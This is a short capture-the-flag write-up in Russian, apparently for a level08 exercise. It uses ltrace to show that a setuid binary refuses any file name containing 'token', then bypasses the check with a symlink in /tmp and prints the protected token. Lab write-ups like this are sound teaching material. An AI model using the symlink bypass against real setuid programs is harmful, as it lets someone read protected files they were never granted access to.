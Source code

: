 ```
ls -l
```
> total 16\
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08\
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

Пробуем запустить:

```
./level08
```
> ./level08 [file to read]

Создадим файл и проверим, что произойдет
```
echo 123 > /tmp/file;
./level08 /tmp/file
```
> 123

Вывелось содержимое файла, а значит он может прочитать содержимое файла token
```
./level08 ./token
```
> You may not access './token'

Не открывается, проверим, что происходит внутри скрипта
```
ltrace ./level08 token
```
> __libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>\
strstr("token", "token")                                                                                      = "token"\
printf("You may not access '%s'\n", "token"You may not access 'token'\
)                                                                  = 27\
exit(1 <unfinished ...>\
+++ exited (status 1) +++

Происходит сравнение того, что мы подаем с token, если это токен, то он не открывает файл

Создадим ссылку на этот файл и подадим его

```
ln -s /home/user/level08/token /tmp/exploit
```

Подадим ссылку:
```
./level08 /tmp/exploit
```
> quif5eloekouj29ke0vouxean
